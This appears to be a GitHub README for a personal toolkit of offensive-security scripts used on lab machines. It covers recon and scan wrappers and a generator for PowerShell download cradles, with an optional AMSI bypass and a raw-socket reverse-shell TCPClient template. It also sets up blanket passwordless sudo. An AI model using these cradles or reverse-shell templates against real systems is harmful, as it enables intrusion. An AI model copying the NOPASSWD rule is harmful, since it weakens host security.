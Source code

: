 # scripts

Here are a collection of scripts I use regularly for offensive security-related tasks.

![](img/recon_setup_demo.gif)

## Install

```bash
# Install dependencies (kali only)
sudo apt install python3-impacket python3-libtmux python3-requests python3-urllib3 python3-watchdog

# Clone repo
git clone https://github.com/Mojo8898/scripts.git ~/scripts

# Make nmap wrapper script executable
chmod +x ~/scripts/scan_machine.py
```

Some automated scripts including the built-in nmap mapper require sudo to run properly. To prevent password prompts during script execution, follow the following instructions.

```bash
# Edit /etc/sudoers
sudo visudo

# Add the following to the bottom of the file
kali    ALL=(ALL) NOPASSWD: ALL
```

## Example Usage

### recon_setup.py

```bash
# Just configure working environment
python3 ~/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn

# Configure working environment and launch automated tasks
python3 ~/scripts/recon_setup/recon_setup.py -i 10.10.10.10 testing ~/htb/competitive_Mojo098.ovpn -a -u bob -p 'Password123!'
```

### scan_machine.py

```bash
python3 ~/scripts/scan_machine.py 10.10.10.10
```

### scan_targets.py

```bash
python3 ~/scripts/scan_targets.py external_hosts.txt
```

### cradle_gen.py

```bash
python3 ~/scripts/cradle_gen.py 10.10.10.10 9001 -l
```

**Note:**
- To include an AMSI bypass with the Powercat cradle, create a file named amsi_bypass.txt in this project’s root directory. This file should contain the AMSI bypass code that will be prepended to the generated cradle.
- To include a raw socket PowerShell cradle, create a file named raw_socket.txt in this project’s root directory. Within this file, define the connection using Python’s string formatting placeholders for lhost and lport. For example:

```
System.Net.Sockets.TCPClient('{lhost}',{lport})
```
